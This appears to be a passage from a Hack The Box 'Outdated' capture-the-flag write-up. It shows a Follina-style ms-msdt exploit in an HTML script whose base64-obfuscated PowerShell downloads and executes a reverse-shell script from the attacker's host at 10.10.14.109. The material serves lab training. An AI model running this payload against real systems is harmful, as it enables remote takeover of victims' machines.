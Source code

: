 ![image.png](/assets/Images/HTB_Outdated/image%205.png)

```bash
http://localhost:80/exploit.html
```

![image.png](/assets/Images/HTB_Outdated/image%206.png)

```bash
<script>
    location.href = "ms-msdt:/id PCWDiagnostic /skip force /param \"IT_RebrowseForFile=? IT_LaunchMethod=ContextMenu IT_BrowseForFile=$(Invoke-Expression($(Invoke-Expression('[System.Text.Encoding]'+[char]58+[char]58+'Unicode.GetString([System.Convert]'+[char]58+[char]58+'FromBase64String('+[char]34+'SQBFAFgAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAATgBlAHQALgBXAGUAYgBDAGwAaQBlAG4AdAApAC4AZABvAHcAbgBsAG8AYQBkAFMAdAByAGkAbgBnACgAJwBoAHQAdABwADoALwAvADEAMAAuADEAMAAuADEANAAuADEAMAA5AC8AcgBlAHYALgBwAHMAMQAnACkA'+[char]34+'))'))))i/../../../../../../../../../../../../../../Windows/System32/mpsigstub.exe\"";
</script>
```
